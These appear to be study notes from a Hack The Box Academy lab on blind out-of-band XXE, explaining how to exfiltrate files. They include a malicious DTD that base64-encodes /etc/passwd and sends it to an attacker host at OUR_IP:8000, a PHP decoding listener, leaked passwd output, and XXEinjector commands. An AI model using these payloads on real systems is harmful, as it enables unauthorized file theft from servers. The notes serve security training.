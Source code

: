 # Blind Data Exfiltration

## Out-of-band Data Exfiltration

This method is used when no data is returned at all (completly blind). This is similar to blind SQLi Blind XSS

Previously we already used out-of-band attack since we hosted DTD file in attack machine and made it connect to us (hence out-of-band).

This time will be similar except, instead of having web app output our file entity to a specific XML entity, we will make web app send request to server with content of the file we are reading.

1. Use parameter entitiy for content of file we are reading using PHP filter to base64 encode it.
2. Create another external parameter and reference it to our IP along with the value

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

When the XML tries to reference the external `oob` parameter from our machine, it will request along with the base64 encoded content. To decode it we will use PHP.

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

```bash
nano index.php
php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

**Request body**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_blind_request.jpg" alt=""><figcaption><p>request sent</p></figcaption></figure>

our console will show as follow

```shell-session
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

> we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.our.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.

### Automated OOB Exfiltration

[XXEinjector](https://github.com/enjoiz/XXEinjector). -> supports basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.

```shell-session
git clone https://github.com/enjoiz/XXEinjector.git
```

We can **copy the HTTP request from Burp** and write it to a file for the tool to use. We should **not include the full XML data**, only the first line, and write `XXEINJECT` after it as a position locator for the tool:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

run the tool with the&#x20;

* `--host`/`--httpport` -> IP and port
* `--file` -> file we wrote above
* `--path` -> file we want to read
* `--oob=http` and `--phpfilter` -> OOB attack

```bash
ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

all exfiltrated files get stored in the `Logs` folder under the tool, and we can find our file there:

```shell-session
cat Logs/10.129.201.94/etc/passwd.log 
```

## Assessment

Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.

<figure><img src="../../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>
